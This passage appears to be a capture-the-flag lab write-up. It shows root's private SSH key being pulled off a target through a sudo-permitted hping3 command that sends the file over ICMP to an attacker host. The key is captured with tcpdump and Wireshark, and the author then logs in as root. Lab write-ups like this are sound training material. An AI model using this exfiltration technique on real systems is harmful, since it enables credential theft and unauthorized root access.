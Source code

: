 Also before trying to crack the root hash, we can try to exfiltrate the `private SSH key` of `root`, if there is one.

- Command: `sudo /usr/sbin/hping3 --icmp -d 1416 -E /root/.ssh/id_rsa 192.168.49.200`


```shell
fox@icmp:~$ sudo /usr/sbin/hping3 --icmp -d 1416 -E /root/.ssh/id_rsa 192.168.49.200
HPING 192.168.49.200 (ens160 192.168.49.200): icmp mode set, 28 headers + 1416 data bytes
[main] memlockall(): Operation not supported
Warning: can't disable memory paging!
len=1444 ip=192.168.49.200 ttl=63 id=25397 icmp_seq=0 rtt=61.6 ms
len=1444 ip=192.168.49.200 ttl=63 id=25460 icmp_seq=1 rtt=61.4 ms
len=1444 ip=192.168.49.200 ttl=63 id=25639 icmp_seq=2 rtt=61.1 ms
len=1444 ip=192.168.49.200 ttl=63 id=25839 icmp_seq=3 rtt=61.0 ms
len=1444 ip=192.168.49.200 ttl=63 id=25890 icmp_seq=4 rtt=68.9 ms
len=1444 ip=192.168.49.200 ttl=63 id=26060 icmp_seq=5 rtt=60.8 ms
^C
--- 192.168.49.200 hping statistic ---
6 packets transmitted, 6 packets received, 0% packet loss
round-trip min/avg/max = 60.8/62.5/68.9 ms
```

Before running the `hping3` command, we should run `tcpdump` to receive the contents of `/root/.ssh/id_rsa`.

```shell
geobour98@kali:~$ sudo tcpdump icmp -i tun0 -w ssh.pcap
```

The output is saved on `ssh.pcap`, which can be opened with `wireshark`.

```shell
geobour98@kali:~$ wireshark ssh.pcap
-----BEGIN OPENSSH PRIVATE KEY-----
[REDACTED]
-----END OPENSSH PRIVATE KEY-----
```

Then we create a file `id_rsa` from the `ssh.pcap`, change it's permissions and ssh as `root`.


```shell
geobour98@kali:~$ chmod 600 id_rsa
geobour98@kali:~$ ssh -i id_rsa root@192.168.200.218
Linux icmp 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Sep  6 18:31:36 2022 from 192.168.49.200
root@icmp:~# id
uid=0(root) gid=0(root) groups=0(root)
root@icmp:~# cat proof.txt
[REDACTED]
```
